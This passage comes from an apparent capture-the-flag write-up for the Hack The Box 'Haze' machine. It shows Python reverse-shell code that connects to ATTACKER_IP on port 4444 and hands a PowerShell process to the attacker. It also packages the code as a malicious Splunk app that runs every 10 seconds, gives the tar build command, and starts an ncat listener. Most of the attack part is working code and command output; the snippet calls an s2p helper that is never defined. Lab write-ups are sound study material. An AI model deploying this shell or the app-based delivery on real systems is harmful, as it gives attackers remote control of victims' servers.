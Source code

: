 ```
def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("ATTACKER_IP", 4444))

p = subprocess.Popen(
    ["powershell"],
    stdout=subprocess.PIPE,
    stderr=subprocess.STDOUT,
    stdin=subprocess.PIPE,
)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```

A gzipped tar file containing the `revshell` app was created. 
The [Malicious Splunk App Directory](splunk_app/) in this repo contains the necessary files:
- `reverse_shell.py`: A Python script that spawns a PowerShell-based reverse shell to `ATTACKER_IP:4444`.
- `inputs.conf`: Configures the app to execute the script on Windows every 10 seconds.
Alternatively, use https://github.com/DimopoulosElias/SplunkAppShell as a reference for creating Splunk apps. 

To recreate `revshell.tgz` change to the `splunk_app/` directory in the repo, update `ATTACKER_IP` in `reverse_shell.py` and run the tar command:
```
fcoomans@kali:~/htb/haze/SplunkAppShell$ tar cvzf revshell.tgz revshell
revshell/
revshell/bin/
revshell/bin/reverse_shell.py
revshell/default/
revshell/default/inputs.conf
```

A `ncat` listener was started on the attack host.
```
fcoomans@kali:~/htb/haze$ rlwrap ncat -lvnp 4444
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
```
